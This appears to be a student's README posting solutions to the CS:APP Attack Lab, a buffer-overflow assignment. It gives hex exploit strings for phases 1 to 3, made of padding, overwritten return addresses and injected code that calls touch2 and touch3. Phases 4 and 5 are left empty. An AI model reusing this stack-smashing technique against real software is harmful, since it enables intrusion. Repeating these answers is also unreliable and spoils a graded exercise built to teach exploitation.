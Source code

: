 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.

## Phase 1 Solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```

## Phase 4 Solution

## Phase 5 Solution
